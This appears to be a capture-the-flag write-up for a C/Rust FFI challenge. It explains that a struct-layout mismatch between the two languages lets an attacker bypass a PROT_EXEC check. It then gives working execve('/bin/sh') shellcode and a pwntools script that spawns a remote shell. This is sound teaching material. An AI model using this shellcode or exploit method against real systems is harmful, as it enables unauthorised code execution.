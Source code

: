 
# Provided Files
- chal.c
- chal
- lib.rs
- libi_love_ffi.so
- Dockerfile

```c filename="chal.c"
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <stddef.h>
#include <unistd.h>
#include <sys/mman.h>

struct MmapArgs {
    uint64_t * addr;
    uint64_t length;
    int protection;
    int flags;
    int fd;
    uint64_t offset;
};

extern struct MmapArgs mmap_args();

int main () {
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);

    struct MmapArgs args = mmap_args();
    char * buf = mmap(args.addr, args.length, args.protection, MAP_PRIVATE | MAP_ANON, args.fd, args.offset);
    if (buf < 0) {
        perror("failed to mmap");
    }

    read(0, buf, 0x1000);

    printf("> ");
    int op;
    if (scanf("%d", &op) == 1) {
        switch (op) {
            case 0:
                ((void (*)(void))buf)();
                break;
            case 1:
                puts(buf);
                break;
        }
    }
}
```

```rs filename="lib.rs"
#![allow(warnings)]

pub struct MmapArgs {
    addr: u64,
    length: u64,
    protection: u32,
    flags: u32,
    fd: u32,
    offset: u64,
}

#[no_mangle]
pub extern "C" fn mmap_args() -> MmapArgs {
    let args = MmapArgs {
        addr: read::<u64>(),
        length: read::<u64>(),
        protection: read::<u32>(),
        flags: read::<u32>(),
        fd: read::<u32>(),
        offset: read::<u64>(),
    };

    if args.protection & 4 != 0 {
        panic!("PROT_EXEC not allowed");
    }

    args
}
```

# Intended
The challenge provides the source for `chal` and `libi_love_ffi.so` in `chal.c` and
`lib.rs` respectively. On the Rust side, an `mmap_args` function is defined that
sets up the arguments and passes them over to C to execute. The Rust performs some
basic checks to prevent passing the `PROT_EXEC` flag in the protections field, which
should prevent allocating shellcode.

However, although the struct definitions in Rust and C are equivalent with the
layout and types exactly the same, when you are compiled they are generated
differently. Modern compilers will typically pad struct fields so that memory
accesses to those fields are faster. The problem is that Rust and C have different
padding behavior. C will attempt to align struct fields to their memory size, but
will maintain struct order. Rust will also attempt to align struct fields to their
memory size, but will not maintain struct order.

## memory layout
| offset | C          | Rust       |
|--------|------------|------------|
| 0x00   | addr       | addr       |
| 0x04   | addr       | addr       |
| 0x08   | length     | length     |
| 0x0C   | length     | length     |
| 0x10   | protection | offset     |
| 0x14   | flags      | offset     |
| 0x18   | fd         | protection |
| 0x1C   | [ unused ] | flags      |
| 0x20   | offset     | fd         |
| 0x24   | offset     | [ unused ] |

As we can see in the above chart, the fields in Rust dont match up one-to-one to the
struct fields on the C side. This allows us to bypass the protection check in rust
and allocate shellcode.

## Solution
```x86asm filename="shellcode.asm" open
    bits 64
    
_start:
    mov rax, `/bin/sh`
    push rax
    mov eax, 0x3b
    mov rdi, rsp
    xor esi, esi
    xor edx, edx
    syscall
```

```python filename="main.py" open
from pwn import *

p = remote(args.HOST, args.PORT)

for n in [0, 0x1000, 0, 0, 0, 7]:
    p.sendlineafter(b"> ", str(n).encode())

p.send(open("shellcode", "rb").read().ljust(4096, b"\x00"))
p.sendlineafter(b"> ", b"0")

p.interactive()
```

# Unintendeds
No unintendeds :D